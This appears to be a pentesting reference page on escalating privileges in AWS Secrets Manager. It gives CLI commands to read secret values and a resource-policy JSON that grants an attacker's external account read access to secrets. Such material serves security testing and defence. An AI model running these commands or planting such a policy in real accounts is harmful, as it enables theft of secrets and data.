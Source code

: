 # AWS - Secrets Manager Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

For more info about secrets manager check:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

An attacker with this permission can get the **saved value inside a secret** in AWS **Secretsmanager**.

```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```

**Potential Impact:** Access high sensitive data inside AWS secrets manager service.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

With the previous permissions it's possible to **give access to other principals/accounts (even external)** to access the **secret**. Note that in order to **read secrets encrypted** with a KMS key, the user also needs to have **access over the KMS key** (more info in the [KMS Enum page](../aws-services/aws-kms-enum.md)).

```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```

policy.json:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::<attackers_account>:root"
      },
      "Action": "secretsmanager:GetSecretValue",
      "Resource": "*"
    }
  ]
}
```

{{#include ../../../banners/hacktricks-training.md}}



